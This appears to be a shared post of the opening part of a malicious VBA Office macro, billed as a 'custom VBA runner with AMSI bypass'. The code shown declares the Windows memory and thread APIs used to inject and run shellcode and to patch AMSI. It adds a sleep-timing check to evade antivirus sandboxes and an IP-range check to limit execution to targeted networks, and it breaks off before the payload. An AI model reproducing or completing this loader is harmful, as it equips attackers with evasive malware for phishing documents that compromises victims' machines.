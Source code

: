 another of my custom VBA runner with AMSI bypass abd other goodies **read comments**

```js
Type MODULEINFO
  lpBaseOfDLL As Long
  SizeOfImage As Long
  EntryPoint As Long
End Type
Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function GetPrAddr Lib "KERNEL32" Alias "GetProcAddress" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function VirtPro Lib "KERNEL32" Alias "VirtualProtect" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProcess As LongPtr, lpflOldProtect As LongPtr) As LongPtr
Private Declare PtrSafe Function getmod Lib "KERNEL32" Alias "GetModuleHandleA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Sub patched Lib "KERNEL32" Alias "RtlFillMemory" (Destination As Any, ByVal Length As Long, ByVal Fill As Byte)
Public Declare PtrSafe Function EnumProcessModulesEx Lib "psapi.dll" (ByVal hProcess As LongPtr, lphModule As LongPtr, ByVal cb As LongPtr, lpcbNeeded As LongPtr, ByVal dwFilterFlag As LongPtr) As LongPtr
Public Declare PtrSafe Function GetModuleBaseName Lib "psapi.dll" Alias "GetModuleBaseNameA" (ByVal hProcess As LongPtr, ByVal hModule As LongPtr, ByVal lpFileName As String, ByVal nSize As LongPtr) As LongPtr

Function MyMacro()
 'Get current time, sleep 4 seconds, get time again.  If less than 4 seconds have passed, assume we are in a AV sandbox and exit without running rest of macro.
 Dim myTime
 myTime = Time
 Dim Timein As Date
 Timein = Date + myTime
 Sleep (4000)
 Dim second_time
 second_time = Time
 Dim Timeout As Date
 Timeout = Date + second_time
 Dim subtime As Variant
 subtime = DateDiff("s", Timein, Timeout)
 Dim vOut As Integer
 vOut = CInt(subtime)
 If subtime < 3.5 Then
    Exit Function
 End If
 'initialize variables
 Dim Is64 As Boolean
 Dim StrFile As String
 Dim check As Boolean
 Dim buf As Variant
 Dim addr As LongPtr
 Dim counter As LongPtr
 Dim data As String
 Dim res As LongPtr
 Dim ipcheck As Boolean
 ipcheck = False
 Dim inscope As String
 'define in scope IP's.  We can use wildcards here.
 inscope = "192.168.*"
 'Call ip check function.  Returns True if machine IP is in scope. If True, pass.  If False, exit.
 ipcheck = getMyIP(inscope)
```